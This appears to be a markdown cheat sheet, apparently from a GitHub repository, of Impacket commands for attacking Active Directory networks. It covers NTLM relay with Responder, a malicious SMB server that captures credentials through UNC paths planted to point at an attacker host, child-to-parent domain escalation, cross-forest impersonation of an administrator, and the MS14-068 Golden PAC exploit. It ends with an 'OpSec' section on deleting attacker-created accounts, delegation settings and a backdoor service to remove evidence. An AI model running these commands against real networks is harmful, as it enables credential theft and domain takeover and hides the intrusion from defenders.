 ## Network-Based Attacks

### NTLM Relay Chains
```bash
# Terminal 1: Set up responder
python3 Responder.py -I eth0 -w

# Terminal 2: Set up relay
python3 ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"

# Terminal 3: Trigger authentication
# Send malicious documents, links, etc.
```

### SMB Server for Credential Capture
```bash
# Set up malicious SMB server
python3 smbserver.py -smb2support SHARE /tmp/share

# Plant UNC paths in documents, emails, etc.
# \\attacker_ip\SHARE\file.exe
```

## Multi-Domain and Forest Attacks

### Cross-Domain Attacks
```bash
# Enumerate trust relationships
python3 GetADUsers.py domain.com/user:password -all | grep -i trust

# Child to parent domain escalation
python3 raiseChild.py child.domain.com/child_admin:password

# Cross-forest attacks via trusts
python3 getST.py trusted.domain.com/user:password -spn cifs/target.parent.com -impersonate administrator
```

### Golden PAC Attacks
```bash
# Exploit MS14-068 (if applicable)
python3 goldenPac.py domain.com/user:password@target.domain.com
```

## Cleanup and OpSec

### Evidence Removal
```bash
# Remove created computer accounts
python3 GetADComputers.py domain.com/admin:password -computer EVILPC$ -delete

# Clean RBCD configurations
python3 rbcd.py domain.com/user:password -action remove -delegate-from ATTACKER$ -delegate-to TARGET$

# Remove created services
python3 services.py domain.com/admin:password@target.domain.com -action delete -name "BackdoorService"
```
